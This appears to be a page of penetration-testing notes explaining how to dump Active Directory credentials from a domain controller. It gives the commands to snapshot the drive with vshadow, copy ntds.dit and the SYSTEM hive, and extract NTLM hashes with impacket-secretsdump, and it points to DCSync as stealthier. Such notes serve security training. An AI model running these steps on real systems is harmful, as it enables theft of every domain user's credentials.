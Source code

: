 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shadow Copies

The **Volume Shadow Service (VSS)** in Windows allows for the creation of snapshots of volumes or files. An attacker can leverage the `vshadow` utility to create a shadow copy of the AD database, `ntds.dit`, from a DC. After extracting the database and SYSTEM hive, they can use tools like `impacket-secretsdump` to dump user credentials, including NTLM hashes and Kerberos keys, offline.

> _The **SYSTEM Hive** is a registry file that stores system-level information in Windows, which is required to successfully decrypt the `ntds.dit` database for credential extraction._

In our scenario we will login to `DC1` as `jeffadmin`.

{% tabs %}
{% tab title="1. Shadow Copy" %}
Create a shadow copy of the `C:` drive on `DC1` with `vshadow.exe` (`-nw` disables writers,  `-p`  stores the copy on disk).

```powershell
vshadow.exe -nw -p C:
```
{% endtab %}

{% tab title="2. Copy DB" %}
Once the snapshot is created, we will use the shadow copy device name to copy `ntds.dit` to the local disk.

{% code overflow="wrap" %}
```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```
{% endcode %}
{% endtab %}

{% tab title="3. Extract SYSTEM hive" %}
Extract the `SYSTEM` registry hive.

```powershell
reg.exe save hklm\system c:\system.bak
```
{% endtab %}

{% tab title="4. Extract Creds" %}
&#x20;Transfer the `.bak` files to our attacker machine and extract the credentials.

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
{% endcode %}
{% endtab %}
{% endtabs %}

> [_DCSync_](../permissions/dcsync.md) _with `mimikatz` is a stealthier method for extracting user hashes from a DC without leaving as obvious a trail._
